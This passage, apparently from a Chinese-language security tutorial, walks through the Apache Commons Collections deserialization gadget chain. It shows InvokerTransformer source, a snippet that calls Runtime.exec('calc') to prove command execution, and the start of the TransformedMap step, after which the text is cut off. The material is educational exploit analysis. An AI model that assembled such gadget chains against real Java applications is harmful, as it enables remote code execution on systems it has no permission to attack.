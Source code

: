 ```java
        } catch (NoSuchMethodException var4) {
            throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' does not exist");
        } catch (IllegalAccessException var5) {
            throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' cannot be accessed");
        } catch (InvocationTargetException var6) {
            throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' threw an exception", var6);
        }
    }
}
```

然后通过构造简单的语句即可调用造成命令执行

```java
InvokerTransformer invokerTransformer = new InvokerTransformer(
        "exec",new Class[]{String.class},new Object[]{"calc"}
);

invokerTransformer.transform(Runtime.getRuntime());
```

exec函数有一个形参，类型为String.class，传入参数为calc，弹出计算器

![img](https://images-1258433570.cos.ap-beijing.myqcloud.com/images/20210923180231.png)

但是在实际情况中，是不会在逻辑代码中直接调用该类的transform方法，并且该值还是我们可控的..这基本不可能遇到。所以我们需要找寻其他类，看在哪个类中调用到了其transform方法。

### **TransformedMap**

于是就找到了TransformedMap类，该类位于

```
rg.apache.commons.collections.map.TransformedMap
```

![img](https://images-1258433570.cos.ap-beijing.myqcloud.com/images/20210923180226.png)

来看下该类的构造函数，为protected，外部包无法调用

```java
protected final Transformer keyTransformer; //定义的常量
protected final Transformer valueTransformer;

protected TransformedMap(Map map, Transformer keyTransformer, Transformer valueTransformer) {
    super(map); //传入一个Map
    this.keyTransformer = keyTransformer; //key发生变化触发的Transformer
    this.valueTransformer = valueTransformer; //value发生变化触发的Transformer
}
```

需要通过decorate函数获取该类对象，

```java
public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {
    return new TransformedMap(map, keyTransformer, valueTransformer);
}
```
